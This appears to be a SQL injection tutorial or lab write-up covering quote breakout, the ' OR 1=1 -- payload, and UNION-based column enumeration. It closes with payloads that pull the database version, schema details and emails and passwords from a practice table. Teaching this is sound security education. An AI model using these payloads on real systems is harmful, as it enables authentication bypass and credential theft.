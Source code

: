   - **Single Quote (`'`)**: Often used to break out of string literals in SQL queries.
   - **Double Quote (`"`)**: Used similarly to single quotes, depending on the SQL dialect.
   - **Semicolon (`;`)**: Can be used to terminate one query and start another.

2. **Basic Injection Example**:

   - **`' OR 1=1 -- `**: A common SQL Injection payload. It manipulates the SQL query to always return true, potentially bypassing authentication or exposing data.
     - **`'`**: Ends the current string literal.
     - **`OR 1=1`**: Always evaluates to true, altering the query logic.
     - **`--`**: SQL comment syntax that ignores the rest of the query.

3. **Commenting Out Query**:
   - **`--`**: A SQL comment that can be used to ignore the rest of a query. This is often used in conjunction with injection payloads to ignore parts of the original query.

## SQL Injection - UNION

The `UNION` operator in SQL is used to combine the results of two or more `SELECT` statements. However, for the `UNION` to work correctly, there are two important conditions that must be met:

The number of columns in both `SELECT` statements must be the same.
The data types of the corresponding columns must be compatible.
When performing SQL injection, attackers often use the `UNION` operator to extract additional information from different tables or columns within the same table. However, to successfully use `UNION`, the number of columns in the injected `SELECT` statement must match the number of columns in the original query.

Determining the Number of Columns
To determine the number of columns in the original query, attackers may inject a series of `NULL` values into the `UNION` statement and increase the count of `NULL`s iteratively until the query executes successfully. This technique is often referred to as a "column enumeration attack."

For example, if the original query is:

```sql
SELECT username, email FROM injection0x01 WHERE username = 'jeremy';
```

An attacker might start with: `jeremy' UNION SELECT NULL #`

If the number of `NULL` values does not match the number of columns in the original query, an error will be returned.

The attacker will then increment the number of `NULL` values: `jeremy' UNION SELECT NULL, NULL, NULL #`

Once we've identified a vulnerable input field, we can start injecting SQL queries to extract valuable information from the database:

- Get the Database Version: `' union select null,null,version()#`
- Discover Available Tables: `'union select null, null,table_name from information_schema.tables#`
- Discover Available Columns: `'union select null, null,column_name from information_schema.columns#`

To solve the challenge:

- Identify Columns in a Specific Table: `' UNION SELECT null, null, column_name FROM information_schema.columns WHERE table_name = 'injection0x01' #`
- Extract Data from the Target Table: `' UNION SELECT email, null, password FROM injection0x01 #`

